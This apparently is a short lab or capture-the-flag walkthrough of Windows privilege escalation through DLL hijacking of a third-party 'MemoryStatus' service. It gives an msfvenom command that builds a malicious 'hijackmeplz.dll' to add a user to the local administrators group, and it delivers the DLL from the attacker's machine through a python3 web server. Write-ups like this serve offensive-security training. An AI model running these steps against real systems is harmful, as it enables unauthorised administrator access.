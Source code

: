 ```







First go into services and find the MemoryStatus service, which has an empty description (indicates thrid party). third party means vulnerable!

looking into the MemoryStatus file location shows you there is a C source code file, a services.exe application, and a text file that it dumps into. examining the source code shows you that it uses a "hijackmeplz.dll" dll, meaning it is vulnerable to DLL hijacking.

create a malicious DLL with the same name as "hijackmeplz.dll" that adds your user to the administrators group.

	msfvenom -p windows/exec CMD="cmd /C net localgroup administrators comrade /add" -f dll > hijackmeplz.dll

^	adds your user to the administrator group, packs it into the dll loaded by the C source code.

transfer your dll over to the box by opening a python3 web server while in the directory containing your msfvenom packed dll.

	linops >> python3 -m http.server

then go to the web server by opening it in your browser (in this case microsoft edge). type into the address bar your linux_float_ip:8000 to grab and download the dll. save it into the memory status folder as hijackmeplz.dll
	
after reboot, allows you to open a command prompt and runas administrator, whihc gives you access to see the admins desktop









```
